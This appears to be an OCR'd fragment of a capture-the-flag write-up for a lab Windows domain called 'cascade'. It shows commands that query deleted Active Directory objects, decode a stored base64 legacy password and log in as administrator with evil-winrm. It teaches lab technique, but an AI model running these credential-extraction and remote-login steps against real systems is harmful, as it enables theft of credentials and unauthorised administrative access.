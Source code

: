 ```bash
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```


# Run the cmds to extract password:

```bash
PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE)(DisplayName=TempAdmin))" -IncludeDeletedObjects -Properties *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
```

# Crack the password:

```bash
└─# echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

# let's login to the admin account using evil-winrm:

```bash
└─$ evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182

----------rooted---------------
```
